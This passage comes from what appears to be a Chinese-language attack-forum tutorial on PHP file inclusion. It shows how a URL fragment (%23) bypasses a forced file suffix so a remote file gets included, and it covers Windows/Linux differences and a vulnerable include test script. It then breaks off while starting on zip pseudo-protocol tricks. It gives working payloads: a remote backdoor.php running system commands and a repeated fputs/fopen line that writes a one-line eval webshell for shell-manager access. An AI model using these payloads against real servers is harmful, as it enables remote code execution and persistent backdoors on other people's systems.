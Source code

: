 [![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-fa3d8016c462c56cacb29e6ddad7a4f67f38fba0.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-fa3d8016c462c56cacb29e6ddad7a4f67f38fba0.png)

也可以将php代码替换为`fputs(fopen('hack.php','w'),'<?php @e val($_POST[v])?>');?>`写入木马`hack.php`，用shell管理工具连接

#### 姿势二：fragment（#(%23)）

```php
index.php?file=http://remoteaddr/remoteinfo.txt%23
```

则包含的文件为 `http://remoteaddr/remoteinfo.txt#/test/test.php`  
问号后面的部分`/test/test.php`，也就是指定的后缀被当作fragment从而被绕过。注意需要把`#`进行url编码为`%23`。

##### 注意命令执行和写入木马

如：`http://x.x.x.x/fileinclude2.php?file=http://x.x.x.x/backdoor.php%23`

backdoor.php中的php代码为`<?php system('whoami'); ?>`，结果成功命令执行了

也可以将php代码替换为`fputs(fopen('hack.php','w'),'<?php @e val($_POST[v])?>');?>`写入木马`hack.php`，用shell管理工具连接

#### 注意：Windows和Linux下的区别

在Linux下，是上面这种情况；

在Windows下有些许不同：不加`?`或者`#(%23)`也可以执行，加了也可以执行，而且`#`不进行url编码和进行url编码为`%23`都是可以执行的。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a89aaa7057cf6a197d836a06be77106f3dba538b.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a89aaa7057cf6a197d836a06be77106f3dba538b.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-d10320659013aa9d2c9557cfe13bc6056e8f7fe5.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-d10320659013aa9d2c9557cfe13bc6056e8f7fe5.png)

### 解决：利用伪协议

前面有提到过利用zip伪协议和phar伪协议。假设现在测试代码为：

```php
<?php
    $file = $_GET['file'];
    include $file.'/test/test.php';
?>
```

#### 姿势一：利用zip伪协议

构造压缩包如下：

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1083c05335f1c4c5d2e855a7d7b84583abeaeaaf.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1083c05335f1c4c5d2e855a7d7b84583abeaeaaf.png)

其中test.php内容为：
